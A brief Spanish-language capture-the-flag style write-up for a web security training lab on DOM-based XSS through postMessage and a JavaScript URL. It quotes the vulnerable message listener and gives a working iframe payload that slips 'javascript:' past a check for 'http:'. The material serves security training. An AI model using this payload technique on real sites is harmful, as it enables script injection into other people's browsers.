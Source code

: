 # Lab 2: DOM XSS using web messages and a JavaScript URL

El aplicativo web tiene en el codigo HTML lo siguiente:

```html
<script>
window.addEventListener('message', function(e) {
  var url = e.data;
  if (url.indexOf('http:') > -1 || url.indexOf('https:') > -1) {
    location.href = url;
  }
}, false);
</script>
```

Creamos un aplicativo web con el siguiente codigo:

{% code overflow="wrap" %}
```html
<iframe src="https://0af400be04bea2368159757100070042.web-security-academy.net/" onload="this.contentWindow.postMessage('javascript:alert(2024)//http:','*')">
```
{% endcode %}

Y luego de lo anterior:

<figure><img src="../.gitbook/assets/image (34).png" alt=""><figcaption></figcaption></figure>

Es importante resaltar, que el script valida o busca la existencia de la siguiente palabra: http:

Si esta no se encuentra presente no se desplegara el XSS.
